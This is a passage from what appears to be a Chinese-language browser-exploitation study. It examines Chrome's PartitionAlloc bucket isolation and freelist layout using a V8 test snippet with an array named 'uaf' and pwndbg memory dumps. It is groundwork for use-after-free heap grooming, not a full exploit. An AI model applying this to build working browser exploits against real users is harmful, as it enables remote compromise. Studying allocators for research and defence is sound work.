partitionAllocGeneric依旧主要还是通过partitionBucketAlloc实现，但需要先partitionGenericSizeToBucket来获得size对应的bucket。

我们在为ArrayBuffer的backing store分配时就采用的这种方法


5、 PartitionAlloc aligns each object allocation with the closest bucket size

```
        var uaf = new Float64Array(16).fill(i2f(0x717171717171n));
		var leaks = new Float64Array(128).fill(i2f(0x727272727272n));
		var test = new Float64Array(512).fill(i2f(0x737373737373n));
		%DebugPrint(uaf);
		%DebugPrint(uaf.buffer);
		%DebugPrint(leaks);
		%DebugPrint(leaks.buffer);
		%DebugPrint(test);
		%DebugPrint(test.buffer);
		debug();


backing store:

0x000025e02ce0c000  //16
0x000025e02ce10000  //128
0x000025e02ce14000  //512
```
这里可以看到不同大小的object在Partitions中是隔离的，且每类buckets大小为0x4000。

6、我们再来看一下刚才的object free之后的内存：
```
pwndbg> x/20gx 0x204b080a28bd-1
0x204b080a28bc:	0x080406e908200dc9	0x00000000080406e9
0x204b080a28cc:	0x0000000000000000	0x0000000100000000
0x204b080a28dc:	0x0000000600000000	0x0000000000000000
0x204b080a28ec:	0x0000000000000000	0x080406e908201ac1
0x204b080a28fc:	0x080a28bd080411a9	0x0000000000000000
0x204b080a290c:	0x0000000000000080	0x0000000000000010
0x204b080a291c:	0x0000061deec0c000	0x0000000000000000
0x204b080a292c:	0x0000000000000000	0x0804035d00000000
0x204b080a293c:	0x0000717171717171	0x080406e908200dc9
0x204b080a294c:	0x00000000080406e9	0x0000000000000000

pwndbg> x/20gx 0x204b080a2945-1
0x204b080a2944:	0x080406e908200dc9	0x00000000080406e9
0x204b080a2954:	0x0000000000000000	0x0000000100000000
0x204b080a2964:	0x0000000600000000	0x0000000000000000
0x204b080a2974:	0x0000000000000000	0x080406e908201ac1
0x204b080a2984:	0x080a2945080411a9	0x0000000000000000
0x204b080a2994:	0x0000000000000400	0x0000000000000080
0x204b080a29a4:	0x0000061deec10000	0x0000000000000000
0x204b080a29b4:	0x0000000000000000	0x0804035d00000000
0x204b080a29c4:	0x0000727272727272	0x080406e908200dc9
0x204b080a29d4:	0x00000000080406e9	0x0000000000000000

pwndbg> x/10gx 0x0000061deec0c000
0x61deec0c000:	0x80c0c0ee1d060000	0x0000717171717171
0x61deec0c010:	0x0000717171717171	0x0000717171717171
0x61deec0c020:	0x0000717171717171	0x0000717171717171
0x61deec0c030:	0x0000717171717171	0x0000717171717171
0x61deec0c040:	0x0000717171717171	0x0000717171717171

pwndbg> x/10gx 0x0000061deec10000
0x61deec10000:	0x0004c1ee1d060000	0x0000727272727272
0x61deec10010:	0x0000727272727272	0x0000727272727272
0x61deec10020:	0x0000727272727272	0x0000727272727272
0x61deec10030:	0x0000727272727272	0x0000727272727272
0x61deec10040:	0x0000727272727272	0x0000727272727272


pwndbg> x/10gx 0x0000061deec10400
0x61deec10400:	0x0008c1ee1d060000	0x0000000000000000
0x61deec10410:	0x0000000000000000	0x0000000000000000
0x61deec10420:	0x0000000000000000	0x0000000000000000
0x61deec10430:	0x0000000000000000	0x0000000000000000
0x61deec10440:	0x0000000000000000	0x0000000000000000

pwndbg> x/10gx 0x0000061deec10800
0x61deec10800:	0x000cc1ee1d060000	0x0000000000000000
0x61deec10810:	0x0000000000000000	0x0000000000000000
0x61deec10820:	0x0000000000000000	0x0000000000000000
0x61deec10830:	0x0000000000000000	0x0000000000000000
0x61deec10840:	0x0000000000000000	0x0000000000000000 
```

这里以大小为128的object为例，他的freelist为0x0000061deec10400->0x0000061deec10800->0x0000061deec10c00等等。

可以发现每个freed块大小为0x400。这里还验证了16大小，这时为0x80。这里推断chunk大小为当前buckets存储的object大小的8倍。 


### v8


